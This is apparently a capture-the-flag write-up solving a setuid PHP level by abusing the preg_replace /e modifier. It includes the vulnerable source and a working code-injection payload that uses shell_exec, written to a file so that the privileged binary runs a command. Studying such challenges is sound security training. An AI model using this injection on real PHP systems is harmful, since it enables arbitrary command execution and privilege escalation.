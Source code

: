 # Level06

## Context
Content of `/home/user/level06` :
```
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

And here is the content of level06.php:
```php
#!/usr/bin/php
<?php
        function y($m) {
                $m = preg_replace("/\./", " x ", $m);
                $m = preg_replace("/@/", " y", $m);
                return $m;
        }
        function x($y, $z) {
                $a = file_get_contents($y);
                $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
                $a = preg_replace("/\[/", "(", $a);
                $a = preg_replace("/\]/", ")", $a);
                return $a;
        }
        $r = x($argv[1], $argv[2]);
        print $r;
?>
```


## Resolution
 * We observe that the binary 'level06' has suid rights, and is part of the flag06 group.
Which means if we get it to execute `getflag` we will solve this level.
 * It works with a path_to_file in 1st argument, which will be evaluated through multiple REGEX expression.
 * In function x, the first preg_replace has the option e. This means it will execute his output (after replacement). 
   * It will match with this pattern : `[x our_malicious_code]`
   * https://www.php.net/manual/fr/reference.pcre.pattern.modifiers.php in the docs, we have an example of malicious use of this vulnerability : `${eval($_GET[php_code])}}`
   * For us to be able to execute `getflag` we will use `shell_exec()` : https://www.php.net/manual/en/function.shell-exec.php
 * By trying a couple of combinaison we find this successfull file content: ```[x {${shell_exec(getflag)}}]```, that we put in a file:  ```echo '[x {${shell_exec(getflag)}}]' > /var/crash/level06_solution```. which makes `./level06 /var/crash/level06_solution` to output the flag we are looking for.

 
